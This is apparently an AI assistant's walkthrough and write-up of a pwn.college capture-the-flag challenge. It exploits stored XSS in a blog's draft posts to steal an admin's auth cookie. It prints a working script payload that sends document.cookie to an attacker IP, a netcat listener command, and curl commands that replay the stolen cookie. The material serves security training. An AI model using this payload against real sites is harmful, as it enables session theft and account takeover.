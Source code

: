 Excellent — that hint makes the solution easier. It tells you:

> You **don’t need a Flask app or Python server** — a simple listener using `nc` (**netcat**) is enough to capture the admin’s cookie.

Let’s go through the **detailed steps to solve the challenge**, assuming the following:

* You can **submit a post** (e.g., via `/draft`) as a normal user.
* The **admin will visit `/`**, which renders your post (where your XSS will run).
* You can **listen with `nc`** to exfiltrate data (cookie).
* The admin has a cookie `auth=admin|pwn.college{...}` which you want to steal.

---

## ✅ DETAILED STEPS

### 🔧 Step 1: Run a `netcat` listener

On your machine (terminal), run:

```bash
nc -lvnp 8000
```

Explanation:

* `-l`: Listen mode.
* `-v`: Verbose (see connection details).
* `-n`: Don’t do DNS lookups.
* `-p 8000`: Use port 8000.

This will wait for HTTP requests and print them — including the `auth` cookie.

---

### 🌐 Step 2: Find Your IP

Find your **public IP** (or internal IP if the target is on the same network).

To get your public IP:

```bash
curl ifconfig.me
```

Let’s say it’s: `1.2.3.4`
(If you’re on a CTF box or Docker image, it might be `172.x.x.x` or `10.x.x.x` — depends on network setup.)

If this IP is reachable by the challenge, we’re good.

---

### ✍️ Step 3: Craft the XSS Payload

Now, you want to **inject JavaScript** that steals the cookie and sends it to your IP+port.

Here's a **working payload**:

```html
<script>
    fetch("http://1.2.3.4:8000/?cookie=" + document.cookie);
</script>
```

Explanation:

* When the admin opens the post, the script runs.
* `document.cookie` contains the `auth=admin|...` token.
* The cookie is sent to your `netcat` listener.

---

### 🧪 Step 4: Submit the Payload

Log in as the user `hacker / 1337`.
Go to `/draft` and create a post that includes the XSS payload.

For example:

* Title: `Test`
* Content:

```html
<script>
fetch("http://1.2.3.4:8000/?cookie=" + document.cookie);
</script>
```

Click **Submit**.

---

### ⏳ Step 5: Wait for the Admin

The system will automatically simulate an admin visiting `/` and rendering all posts.

You will see a request hit your netcat listener like:

```
GET /?cookie=auth=admin|pwn.college{XSS_pwned!} HTTP/1.1
Host: 1.2.3.4:8000
User-Agent: Mozilla/5.0 ...
...
```

This gives you the full `auth` cookie!

---

### 🔓 Step 6: Use the Admin Cookie

Now use `curl` to impersonate the admin and access `/` or any other restricted data:

```bash
curl -b "auth=admin|pwn.college{XSS_pwned!}" http://challenge.localhost/
```

Or, more accurately (if remote):

```bash
curl -b "auth=admin|pwn.college{XSS_pwned!}" http://<challenge-ip>/
```

Look for content like:

```
<h1>Welcome, admin</h1>
<article>pwn.college{XSS_pwned!}</article>
```

---

## 📝 WRITEUP: "XSS Cookie Stealer"

**Challenge Type:** Web security
**Technique:** Stored XSS → Cookie Theft → Admin Impersonation

---

### ✅ Exploitation Steps:

1. We are logged in as a normal user (`hacker`) and can submit posts via `/draft`.
2. These posts are rendered in `/`, including for the admin who views the site automatically.
3. The admin's session is authenticated via the cookie: `auth=admin|pwn.college{...}`.
4. We exploit a stored XSS by submitting a malicious `<script>` tag that runs in the admin's browser.
5. The JavaScript uses `fetch()` to exfiltrate `document.cookie` to our server.
6. We listen using a simple `netcat` command:

   ```bash
   nc -lvnp 8000
   ```
7. Once the admin visits `/`, our script runs and we receive the cookie.
8. Using the stolen cookie, we send authenticated requests and dump the flag.

---

### ✅ Payload Used

```html
<script>
fetch("http://1.2.3.4:8000/?cookie=" + document.cookie);
</script>
```

---

### ✅ Outcome

We successfully obtained the admin's cookie and used it to view the page as admin, revealing the full flag.
